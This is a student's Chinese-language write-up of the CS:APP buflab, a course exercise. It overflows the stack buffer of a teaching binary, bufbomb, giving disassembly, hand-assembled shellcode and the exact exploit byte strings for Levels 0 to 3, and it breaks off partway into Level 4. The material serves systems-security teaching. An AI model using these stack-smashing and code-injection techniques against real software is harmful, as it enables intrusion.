










# 实验四 BUFLAB

## 实验题目

BufLab

## 实验目的

详细了解IA-32调用约定和堆栈组织，对实验室目录中的可执行文件bufbomb应用一系列缓冲区溢出攻击。利用操作系统和网络服务器安全弱点的常用方法之一，了解程序的运行时操作，并了解这种安全漏洞的性质，以便在编写系统代码时可以避免它。

## 实验资源

LAB4-buflab文件、Ubuntu22.04(x86_64)虚拟机

## 实验任务

阅读buflab-writeup，了解文件夹buflab-handout中三个可执行文件的功能和使用方法，并按照buflab-writeup中level0-level4的任务要求，使用自己的usrid生成对应cookie利用缓冲区溢出攻击bufbomb。

### 实验文件介绍

buflab-handout文件夹中包含三个可执行文件：

- **bufbomb**: 需要攻击的缓冲炸弹程序。

- **makecookie**: 根据输入的用户id生成对应cookie。

- **hex2raw**: 一个帮助16进制数据和字符串之间转换的实用程序。

#### usrid & makecookie

Cookie是一个8位16进制数，每个usrid有唯一的Cookie。可以使用makecookie程序生成cookie，并将自己的usrid作为参数。例如：

```sh
prompt> ./makecookie fallen
0x11f528df
```

在五次缓冲区攻击中，我们的目标是使我们的cookie出现在通常不会显示的地方。

#### bufbomb & hex2raw

bufbomb程序从标准输入中读取字符串。它使用下面定义的getbuf函数来做到这一点：

##### int getbuf()

```c
1 /* Buffer size for getbuf */
2 #define NORMAL_BUFFER_SIZE 32
3
4 int getbuf()
5 {
6 	char buf[NORMAL_BUFFER_SIZE];
7 	Gets(buf);
8 	return 1;
9 }
```

函数`Gets`类似于标准库函数`gest` —— 它从标准输入（由'\n'或文件末尾终止）读取字符串，并将其（与空终止符一起）存储在指定的目的地。在这个代码中，可以看到目的地是一个数组buf，有足够的空间容纳32个字符。`Gets`（`gets`）从输入流中抓取字符串，并将其存储到其目标地址（在本例中为buf）。

然而，`Gets()`无法确定buf是否大到足以存储整个输入。它只是复制整个输入字符串，可能超过在目的地分配的存储的边界。这就是我们利用缓冲区溢出攻击程序的关键。

如果用户为`getbuf`键入的字符串长度不超过31个字符，则很明显`getbuf`将返回1，如以下执行示例所示：

```shell
unix> ./bufbomb -u bovik
Type string: *I love 15-213.*
Dud: getbuf returned 0x1
```

但是，如果我们键入一个较长的字符串，就会出现错误：

```shell
unix> ./bufbomb -u bovik
Type string: It is easier to love this class when you are a TA.
Ouch!: You caused a segmentation fault!
```

如果我们在文件 `exploit.txt` 中生成十六进制格式的漏洞字符串，可以通过几种不同的方式将原始字符串应用于bufbomb：

1. 设置一系列管道通过HEX2RAW传递字符串。

`unix> cat exploit.txt | ./hex2raw | ./bufbomb -u bovik`

2. 将原始字符串存储在文件中，并使用I/O重定向将其提供给bufbomb：

`unix> ./hex2raw < exploit.txt > exploit-raw.txt`

`unix> ./bufbomb -u bovik < exploit-raw.txt`

在GDB内运行bufbomb时也可以使用这种方法：

```sh
unix> gdb bufbomb
(gdb) run -u fallen < exploit-raw.txt
```

> [!IMPORTANT]
>
> -  漏洞字符串不得在任何中间位置包含字节值`0x0A`，因为这是换行符的ASCII代码(`\n'`)。当Gets遇到此字节时，它将终止读取字符串。
>
> - `hex2raw`期望由空格分隔的两位16进制值。所以，如果创建数据的十六进制为0，需设置为00。且对小端法存储的机器，要转换16进制0xDEADBEEF，应该传递EF BE AD DE到`HEX2RAW`。

### Level 0: Candle

#### 任务要求

`getbuf`函数在BUFBOMB中由以下`test`函数调用：

```c
1 void test()
2 {
3			int val;
4 		/* Put canary on stack to detect possible corruption */
5 		volatile int local = uniqueval();
6
7 		val = getbuf();
8
9 		/* Check for corrupted stack */
10 		if (local != uniqueval()) {
11 		printf("Sabotaged!: the stack has been corrupted\n");
12 		}
13 		else if (val == cookie) {
14 		printf("Boom!: getbuf returned 0x%x\n", val);
15 		validate(3);
16 		} else {
17 		printf("Dud: getbuf returned 0x%x\n", val);
18 		}
19 }
```

当getbuf执行其返回语句（getbuf第5行）时，程序通常在`test`函数中返回执行（在该函数的第7行）。我们要改变这种行为。在文件bufbomb中，有一个`smoke`函数：

```c
void smoke()
{
		printf("Smoke!: You called smoke()\n");
		validate(0);
		exit(0);
}
```

**我们的任务是让BUFBOMB在getbuf执行其返回语句时执行`smoke`代码，而不是返回`test`。**

> [!NOTE]
>
> - 漏洞字符串也可能损坏与此阶段没有直接关系的堆栈部分，但这不会造成问题，因为`smoke`会让程序直接退出。

#### 任务提示

> [!TIP]
>
> - 为此级别设计漏洞字符串所需的所有信息都可以通过检查BUFBOMB的反汇编来确定。使用objdump -d获取。
> - 注意字节顺序。
> - 使用GDB逐步完成getbuf的最后几个指令，以确保它正在做正确的事情。
> - getbuf函数的位置取决于使用哪个版本的GCC来编译bufbomb，因此您必须阅读汇编才能确定其真实位置。

#### 攻击思路

要让getbuf执行返回语句时执行smoke的代码，需要将getbuf的返回地址由原来test中的地址覆盖为smoke中的地址。

先查看getbuf函数的汇编代码:

```assembly
(gdb) disass getbuf
Dump of assembler code for function getbuf:
/* 保存调用函数%ebp 	开辟栈空间  */
   0x08049262 <+0>:		push   %ebp
   0x08049263 <+1>:		mov    %esp,%ebp
   0x08049265 <+3>:		sub    $0x38,%esp							
/* 向Gets函数传递一个参数并调用 */  
   0x08049268 <+6>:		lea    -0x28(%ebp),%eax
   0x0804926b <+9>:		mov    %eax,(%esp)			
   0x0804926e <+12>:	call   0x8048c32 <Gets>		
   0x08049273 <+17>:	mov    $0x1,%eax					/* Gets函数的返回值1 */
/* getbuf函数返回 */
   0x08049278 <+22>:	leave
   0x08049279 <+23>:	ret    
End of assembler dump.
```

可以看到getbuf函数调用Gets函数前传递了一个参数，而Gets函数需要将读取的字符串存入buf，可以确定这个参数是buf的首地址

则getbuf函数的帧栈情况为：



由Gets函数的介绍，当输入的字符串长度超过buf的大小时，多余的字符会存在buf往后的地址空间，所以要覆盖掉原来的返回地址，需要输入48字节长度的字符串，最后4字节是我们要用来覆盖的新地址，即smoke函数的入口。

查看smoke函数的汇编代码：

```assembly
(gdb) disass smoke 
Dump of assembler code for function smoke:
   0x08048e0a <+0>:		push   %ebp
   0x08048e0b <+1>:		mov    %esp,%ebp
   0x08048e0d <+3>:		sub    $0x18,%esp
   0x08048e10 <+6>:		movl   $0x804a2fe,0x4(%esp)
   0x08048e18 <+14>:	movl   $0x1,(%esp)
   0x08048e1f <+21>:	call   0x8048990 <__printf_chk@plt>
   0x08048e24 <+26>:	movl   $0x0,(%esp)
   0x08048e2b <+33>:	call   0x8049280 <validate>
   0x08048e30 <+38>:	movl   $0x0,(%esp)
   0x08048e37 <+45>:	call   0x80488d0 <exit@plt>
End of assembler dump.
```

**编写漏洞字符串**

可获知smoke函数的入口为0x08048e0a，所以我们需要将最后4字节设置为08 04 8e 0a，但注意0a会被Gets函数识别为`'\n'`，所以这里需更改为smoke函数下一条指令地址0x08048e0b。其余字符可用00来填充，所以最终的漏洞字符串为：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 0b 8e 04 08
```

#### 运行结果



### **Level 1: Sparkler**

#### 任务要求

在可执行文件bufbomb中，还有一个具有以下C代码的函数fizz：

```c
void fizz(int val)
{
		if (val == cookie) {
			printf("Fizz!: You called fizz(0x%x)\n", val);
			validate(1);
      
		} else
			printf("Misfire: You called fizz(0x%x)\n", val);
		exit(0);
}
```

**与Level 0类似，这次的任务是让BUFBOMB执行`fizz`的代码，而不是返回`test`。但另外要求将我们的cookie作为参数传递给`fizz`函数。**

#### 任务提示

> [!TIP]
>
> - 请注意，该程序不会真正调用`fizz`——它只会执行其代码。这对我们想要存放cookie在堆栈的位置有重要影响。

#### 攻击思路

任务说明程序不会真正调用fizz函数，我们需要像上一题一样更改getbuf函数的返回地址，将test中的返回地址替换成fizz函数的地址入口，首先查看fizz函数的汇编代码：

```assembly
(gdb) disass fizz 
Dump of assembler code for function fizz:
/* 保存调用函数%ebp 	开辟栈空间  */
   0x08048daf <+0>:		push   %ebp
   0x08048db0 <+1>:		mov    %esp,%ebp
   0x08048db2 <+3>:		sub    $0x18,%esp
/* if (val == cookie) */
   0x08048db5 <+6>:		mov    0x8(%ebp),%eax				/* 将val保存到%eax */
   0x08048db8 <+9>:		cmp    0x804d104,%eax				/* 比较cookie和val */
   0x08048dbe <+15>:	jne    0x8048de6 <fizz+55>	/* 如果相等不跳转，否则跳转 */
   0x08048dc0 <+17>:	mov    %eax,0x8(%esp)
   0x08048dc4 <+21>:	movl   $0x804a2e0,0x4(%esp)
   0x08048dcc <+29>:	movl   $0x1,(%esp)
   0x08048dd3 <+36>:	call   0x8048990 <__printf_chk@plt>
   0x08048dd8 <+41>:	movl   $0x1,(%esp)
   0x08048ddf <+48>:	call   0x8049280 <validate>
   0x08048de4 <+53>:	jmp    0x8048dfe <fizz+79>
   0x08048de6 <+55>:	mov    %eax,0x8(%esp)
   0x08048dea <+59>:	movl   $0x804a4d4,0x4(%esp)
   0x08048df2 <+67>:	movl   $0x1,(%esp)
   0x08048df9 <+74>:	call   0x8048990 <__printf_chk@plt>
   0x08048dfe <+79>:	movl   $0x0,(%esp)
   0x08048e05 <+86>:	call   0x80488d0 <exit@plt>
End of assembler dump.
```

由fizz函数的c代码可知我们应把fizz函数的参数val设置为我们用户的cookie，有一处条件跳转指令，可以推测是在执行

`if (val == cookie)`，查看0x804d104地址内容：



确定这是我们cookie的地址。

使用原来的方法进入fizz函数开辟栈空间后，fizz函数的帧栈空间情况为：



**编写漏洞字符串**

因为在getbuf返回时会执行两条指令：leave、ret，leave指令相当于执行`mov %ebp,%esp` 和 `pop %ebp`，ret相当于`pop %esi`，所以会弹两次栈，fizz开辟栈空间后，val的起始地址为buf首地址+52，所以输入的字符串长度应为56，最后4个字节是cookie的值0x11f528df，45～48字节处存放fizz函数的入口地址0x08048daf，其余字节用00填充，所以漏洞字符串为：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 af 8d 04 08 00 00
00 00 df 28 f5 11
```

#### 运行结果



### Level 2: Firecracker

#### 任务要求

一种更复杂的缓冲攻击形式涉及提供一个编码实际的机器指令。然后，漏洞字符串在堆栈中用这些指令的起始地址覆盖返回指针。当调用函数（在本例中是`getbuf`）执行其ret指令时，程序将开始在堆栈上执行攻击的机器指令，而不是返回原来地址。有了这种形式的攻击，可以让程序做几乎所有事情。您放置在堆栈上的代码称为漏洞代码。然而，这种攻击方式很棘手，因为必须将机器代码输入堆栈，并将返回指针设置为此代码的开头。

在文件`bufbomb`中，有一个具有以下C代码的函数`bang`：

```c
int global_value = 0;
void bang(int val)
{
	if (global_value == cookie) {
				printf("Bang!: You set global_value to 0x%x\n", global_value);
				validate(2);
	} else
			printf("Misfire: global_value = 0x%x\n", global_value);
	exit(0);
}
```

与Level0和Level1类似，Level2的任务是让BUFBOMB执行`bang`函数代码，而不是返回`test`。然而，在此之前，必须将全局变量global_value设置为用户的cookie。**漏洞代码应该设置global_value，将`bang`的地址入栈，然后执行`ret`指令，跳转到`bang`函数。**

#### 任务提示

> [!TIP]
>
> - 使用GDB来获取构建漏洞字符串所需的信息。在getbuf中设置一个断点，然后运行到这个断点。确定参数，如global_value的地址和缓冲区的位置。
>
> - 可以通过编写包含想要放在堆栈上的机器指令和数据的汇编代码文件，让工具完成所有工作。用gcc -m32 -c汇编文件，然后用objdump -d进行反汇编。够获得将在提示符处键入的确切字节序列。
>
> - 漏洞字符串取决于机器、编译器，用户的cookie。
>
> - 编写汇编代码时注意使用地址模式。请注意，`movl $0x4，%eax`将值`0x00000004`移动到寄存器`%eax`；而`movl 0x4，%eax`将内存位置`0x0000004`的值移动到`%eax`，由于该内存位置通常未定义，第二条指令将导致段错误！
>
> - 不要试图使用`jmp`或`call`指令跳转到`bang`函数。这些指令需要使用与PC相关的寻址，这很难正确设置。相反，在入栈一个地址，并使用`ret`指令。

#### 攻击思路

##### 生成指令序列的字节码

根据buflab-writeup末尾的举例生成字节码

###### 1.编写汇编代码

example.S:

```assembly
# Example of hand-generated assembly code

		push $0xabcdef 				# Push value onto stack
		add $17,%eax 					# Add 17 to %eax
		.align 4 							# Following will be aligned on multiple of 4
		.long 0xfedcba98 			# A 4-byte constant
```

###### 2.编译再反汇编汇编代码文件

`unix> gcc -m32 -c example.S`

`unix> objdump -d example.o > example.d`

运行后得到example.d文件：

```assembly
0: 68 ef cd ab 00				push $0xabcdef
5: 83 c0 11							add $0x11,%eax
8: 98										cwtl
9: ba 									.byte 0xba
a: dc fe 								fdivr %st,%st(6)
```

每行显示一个指令。左边的数字表示起始地址（以0开头），而`“:”`字符后面的16进制数字表示指令的字节码。因此，我们可以看到，指令将值`0xABCDEF`入栈具有16进制格式的字节码`68 ef cd ab 00`。

从地址8开始，反汇编器会感到困惑。它试图将文件example.o中的字节解释为机器指令，但这些字节实际上对应于数据。然而，请注意，如果我们读出从地址8开始的4个字节，我们会得到：98 ba dc fe。这是数据`0xFEDCBA98`的小端法表示。

###### 3.得到机器指令的字节码

最后，我们可以将指令的字节序列读为：

`68 ef cd ab 00 83 c0 11 98 ba dc fe`

这个机器码再通过 hex2raw 生成一个输入字符串传给 bufbomb 就可以完成任务。


根据提示，我们要编写漏洞代码汇编文件，再让程序跳转到漏洞代码的地址执行我们的攻击代码。

我们的攻击代码要完成两件事：

- 设置global_value
- 跳转到bang函数执行

首先我们先确定global_value的地址：

bang函数中有对global_value的使用，查看bang函数的反汇编代码：

```assembly
(gdb) disass bang 
Dump of assembler code for function bang:
   0x08048d52 <+0>:		push   %ebp
   0x08048d53 <+1>:		mov    %esp,%ebp
   0x08048d55 <+3>:		sub    $0x18,%esp
   0x08048d58 <+6>:		mov    0x804d10c,%eax
   0x08048d5d <+11>:	cmp    0x804d104,%eax				
   /* 0x804d104地址中是用户cookie，根据bang的c代码可以确定这里是比较global_value和cookie */
   0x08048d63 <+17>:	jne    0x8048d8b <bang+57>
   0x08048d65 <+19>:	mov    %eax,0x8(%esp)
   0x08048d69 <+23>:	movl   $0x804a4ac,0x4(%esp)
   0x08048d71 <+31>:	movl   $0x1,(%esp)
   0x08048d78 <+38>:	call   0x8048990 <__printf_chk@plt>
   0x08048d7d <+43>:	movl   $0x2,(%esp)
   0x08048d84 <+50>:	call   0x8049280 <validate>
   0x08048d89 <+55>:	jmp    0x8048da3 <bang+81>
   0x08048d8b <+57>:	mov    %eax,0x8(%esp)
   0x08048d8f <+61>:	movl   $0x804a2c2,0x4(%esp)
   0x08048d97 <+69>:	movl   $0x1,(%esp)
   0x08048d9e <+76>:	call   0x8048990 <__printf_chk@plt>
   0x08048da3 <+81>:	movl   $0x0,(%esp)
   0x08048daa <+88>:	call   0x80488d0 <exit@plt>
End of assembler dump.
```

可以推断地址0x804d10c就是global_value的地址，使用x/4bx查看：



确定了global_value的地址后开始编写漏洞代码：

```assembly
mov 0x804d104,%eax	/* mov Cookie into %eax */
mov %eax,0x804d10c	/* set global_value as Cookies */
push $0x8048d52			/* push the address of bang into stack*/
ret									/* goto bang */
```

使用工具得到反汇编代码

```assembly
level4.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 04 d1 04 08       	mov    0x804d104,%eax
   5:	a3 0c d1 04 08       	mov    %eax,0x804d10c
   a:	68 52 8d 04 08       	push   $0x8048d52
   f:	c3                   	ret    
```

最终得到的机器码为

`a1 04 d1 04 08 a3 0c d1 04 08 68 52 8d 04 08 c3`

**编写漏洞字符串**

要让机器执行这段指令，可以把它从buf的首地址开始储存，再用buf的首地址覆盖`getbuf`函数原来的地址，由前面任务可得buf的首地址为%ebp(getbuf中)-0x28即0x55683c98。

所以最终得到的漏洞字符串为：

```
a1 04 d1 04 08 a3 0c d1 04 08
68 52 8d 04 08 c3 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 98 3c 68 55
```

#### 运行结果



### Level 3: Dynamite

#### 任务要求

我们之前的攻击都让程序跳转到其他函数的代码，然后导致程序退出。因此，使用破坏堆栈、覆盖保存值的漏洞字符串是有效的。

最复杂的缓冲区溢出攻击形式导致程序执行一些漏洞代码，这些代码会改变程序的寄存器/内存状态，但使程序返回到原始调用函数（在这种情况下是`test`）。调用函数对攻击视而不见。然而，这种攻击方式很棘手，因为必须：1）将机器代码添加到堆栈上，2）将返回指针设置为此代码的开头，以及3）撤销对堆栈状态的任何损坏。

Level3的工作是提供一个漏洞字符串，该字符串将导致`getbuf`将cookie返回`test`函数，而不是值1。可以在`test`的代码中看到，这将导致程序`“bang!”`。**漏洞代码应将cookie设置为返回值，恢复任何损坏的状态，将正确的返回位置入栈，并执行`ret`指令以真正返回`test`函数。**

#### 任务提示

> [!TIP]
>
> - 可以使用GDB来获取构建漏洞字符串所需的信息。在getbuf中设置一个断点，然后运行到这个断点。确定参数，如保存的返回地址。
>
> - 可以通过编写包含想要放在堆栈上的机器指令和数据的汇编代码文件，让工具完成所有工作。用gcc -m32 -c汇编文件，然后用objdump -d进行反汇编。够获得将在提示符处键入的确切字节序列。

#### 攻击思路

这里的思路和Level3基本相同，唯一不同的是最后我们需要正确返回`test`函数，即不仅要跳转回`test`函数，还要恢复`test`函数的栈空间（即恢复`test`的%esp和%ebp的值）。

`test`函数调用`getbuf`函数后，`test`的`%ebp`的值会入栈保存，但因为要覆盖`getbuf`的返回地址，会同时把`test`的%ebp值覆盖，所以需要在漏洞代码中多加一条指令恢复`%ebp`，而`getbuf`函数中执行`leave`和`ret`指令后`%esp`的值就是原来`test`的%esp的值。



首先在`test`函数中查看其%ebp寄存器的值和调用`getbuf`函数后正确返回地址：


编写漏洞汇编代码level3.S：

```assembly
mov  0x804d104,%eax			/* move Cookies to %eax */
mov  $0x55683cf0,%ebp		/* restore any corrupted state */
push $0x8048e50					/* push the correct return location on the stack */
ret											/* return test */
```

使用工具进行汇编和反汇编得到level3.d：

```assembly

level3.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 04 d1 04 08       	mov    0x804d104,%eax
   5:	bd f0 3c 68 55       	mov    $0x55683cf0,%ebp
   a:	68 50 8e 04 08       	push   $0x8048e50
   f:	c3                   	ret    
```

所以得到的机器码为

`a1 04 d1 04 08 bd f0 3c 68 55 68 50 8e 04 08 c3 `

**编写漏洞字符串**

把机器码从buf的首地址存放，所以最终的漏洞字符串为：

```
a1 04 d1 04 08 bd f0 3c 68 55 
68 50 8e 04 08 c3 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 98 3c 68 55
```

运行结果

### Level 4: Nitroglycerin

#### 任务要求

不同的用户给定过程使用的确切堆栈位置将有所不同。这种变化的一个原因是，当程序开始执行时，所有环境变量的值都放置在堆栈的底部附近。环境变量存储为字符串，根据其值需要不同数量的存储。因此，为给定用户分配的堆栈空间取决于他或她的环境变量的设置。在GDB下运行程序时，堆栈位置也不同，因为GDB将堆栈空间用于一些自己的状态。

在调用`getbuf`的代码中，我们纳入了稳定堆栈的功能，以便`getbuf`的堆栈帧的位置在运行之间保持一致。这使得您可以编写一个知道buf的确切起始地址的漏洞字符串。如果尝试在正常程序上使用这种漏洞，您会发现它有时有效，但在其他时候会导致段错误。因此，名为“炸药”——一种由阿尔弗雷德·诺贝尔开发的炸药，含有稳定元素，使其更不容易发生意外爆炸。

在level4，我们走的是相反的方向，使堆栈位置比平时更不稳定。因此被称为“硝化甘油”——一种众所周知的不稳定的炸药。当您使用命令行标志“-n”运行BUFBOMB时，它将以“Nitro”模式运行。该程序没有调用函数`getbuf`，而是调用一个略微不同的函数`getbufn`：

```c
/* Buffer size for getbufn */
#define KABOOM_BUFFER_SIZE 512
```

此函数类似于`getbuf`，只是它的缓冲区为`512`个字符。您将需要这个额外的空间来创建可靠的漏洞。调用`getbufn`的代码首先在堆栈上分配随机空间，因此，如果在`getbufn`连续两次执行期间采样%ebp的值，可能会发现它们相差高达±240。

此外，当在Nitro模式下运行时，BUFBOMB要求提供5次字符串，它将执行5次`getbufn`，每次执行不同的堆栈偏移。漏洞字符串必须使它每次都返回用户的cookie。

level4任务与Dynamite级的任务相同。再一次，level4的工作是提供一个漏洞字符串，使`getbufn`将用户的cookie返回`testn`，而不是值1。可以在`testn`代码中看到，这将导致程序进入“KABOOM！”。漏洞代码应将cookie设置为返回值，恢复任何损坏的状态，将正确的返回位置入栈，并执行`ret`指令以真正返回到`testn`。

> [!NOTE]
>
> 需要使用“-n”命令行标志才能运行此阶段

#### 任务提示

> [!TIP]
>
> - 使用HEX2RAW程序发送漏洞字符串的多个副本。如果在文件 exploit.txt 中有单个副本，那么可以使用以下命令：
>
>   `unix> cat exploit.txt | ./hex2raw -n | ./bufbomb -n -u bovik`
>
> - 对于getbufn的所有5次执行，您必须使用相同的字符串。否则，分级服务器使用的测试代码将失败。
>
>
> - 利用nop指令。它用单个字节（代码0x90）编码。阅读CS:APP2e教科书第262页上的“nop sleds”可能很有用。

#### 攻击思路

level4的思路与level3的思路相同，只是level4会执行5次`testn`，调用5次`getbufn`，并且每次执行`testn`和`getbufn`的堆栈栈空间偏移都不同，`buf`的地址位置也会不同，我们需要让5次调用都能正确返回`testn`同时恢复`testn`的栈空间，且每次的返回值都是用户cookie。


首先通过GDB调试查看5次执行`testn`和`getbufn`时二者的%ebp的值，以及`buf`的首地址：

| %ebp(tsetn) | %ebp(getbufn) | buf        |
| ----------- | ------------- | ---------- |
| 0x55683cf0  | 0x55683cc0    | 0x55683ab8 |
| 0x55683cc0  | 0x55683c90    | 0x55683a88 |
| 0x55683d10  | 0x55683ce0    | 0x55683ad8 |
| 0x55683d60  | 0x55683d30    | 0x55683b28 |
| 0x55683ce0  | 0x55683cb0    | 0x55683aa8 |

可以发现每次执行`getbufn` 的%ebp寄存器值`testn`比的要小0x30，`getbufn`每次返回前执行leave和ret指令相当于执行：

```assembly
mov %ebp,%esp			/* %esp = %ebp */
pop %ebp					/* %esp = %esp - 0x4 */
pop %eip					/* %esp = %esp - 0x4 */
```

所以，`getbuf`返回后，`%esp + 0x28` 就是`testn`%ebp的值。

再查看`testn`函数中调用`getbufn`后正确返回地址：

```assembly
(gdb) disass testn
Dump of assembler code for function testn:
   0x08048cce <+0>:		push   %ebp
